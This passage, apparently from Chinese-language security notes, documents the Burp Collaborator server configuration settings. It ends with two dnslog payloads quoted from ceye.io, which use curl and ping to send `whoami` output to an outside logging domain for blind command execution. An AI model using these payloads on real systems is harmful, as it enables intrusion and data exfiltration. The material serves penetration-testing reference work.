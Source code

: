| SERVERDOMAIN                 | Collaborator服务器将控制DNS的域或子域。DNS功能需要此设置。   |
| ---------------------------- | ------------------------------------------------------------ |
| workerThreads                | Collaborator用于处理传入请求的线程数。                       |
| eventCapture.localAddress    | 默认情况下，Collaborator将侦听所有本地接口以捕获交互事件。如果指定，它将仅侦听已配置的接口。 |
| eventCapture.publicAddress   | 用于捕获交互事件的公共IP地址。                               |
| eventCapture.http.ports      | 用于侦听HTTP交互事件的端口。如果正在转发端口80，则只应从默认值更改。 |
| eventCapture.https.ports     | 用于侦听HTTPS交互事件的端口。如果正在转发端口443，则只应从默认值更改。 |
| eventCapture.smtp.ports      | 用于侦听SMTP交互事件的端口。如果正在转发端口25和587，则只应从默认值更改。 |
| eventCapture.smtps.ports     | 用于侦听SMTPS交互事件的端口。如果正在转发端口465，则只应从默认值更改。 |
| eventCapture.https.hostname  | 用于生成自签名证书。有关详细信息，请参阅[SSL配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。 |
| polling.localAddress         | 默认情况下，Collaborator将使用相同的网络接口捕获交互事件和提供轮询请求。如果指定，它将使用不同的接口来轮询请求。 |
| polling.publicAddress        | 用于提供轮询请求的公共地址。                                 |
| polling.http.port            | 用于通过HTTP轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。 |
| polling.https.port           | 用于通过HTTPS轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。 |
| polling.https.hostname       | 用于生成自签名证书。有关详细信息，请参阅[SSL配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。 |
| metrics.path                 | 可以访问度量标准页面的URL路径。                              |
| metrics.whitelist            | 允许访问指标页面的客户端IP地址白名单。                       |
| dns.ports                    | 用于侦听DNS查询的端口。如果正在转发端口53，则只应从默认值更改。 |
| dns.interfaces               | 用于侦听DNS查询的本地接口列表。如果您的注册商要求您为每个权威名称服务器配置不同的IP地址，则可以使用多个网络接口并使用此选项配置其位置。 |
| dns.interfaces.name          | 用于在此接口上运行的名称服务器的主机名。每个名称服务器应使用不同的主机名（例如ns1，ns2等）。 |
| dns.interfaces.localAddress  | 要绑定到此名称服务器的本地地址。                             |
| dns.interfaces.publicAddress | 与配置的本地地址对应的公共IP地址。通常，您需要在域的DNS记录中使用配置的主机名和公共IP地址。 |
| LOGLEVEL                     | 标准输出所需 的[日志记录](https://portswigger.net/burp/documentation/collaborator/deploying#collaborator-logging)级别。 |

## 0x03 dnslog的更多骚操作


	以下内容来自dnslog开放平台[**ceye.io**](http://ceye.io/payloads)。

#### 0x00 Command Execution

#####  i. *nix:

```bash
curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
```
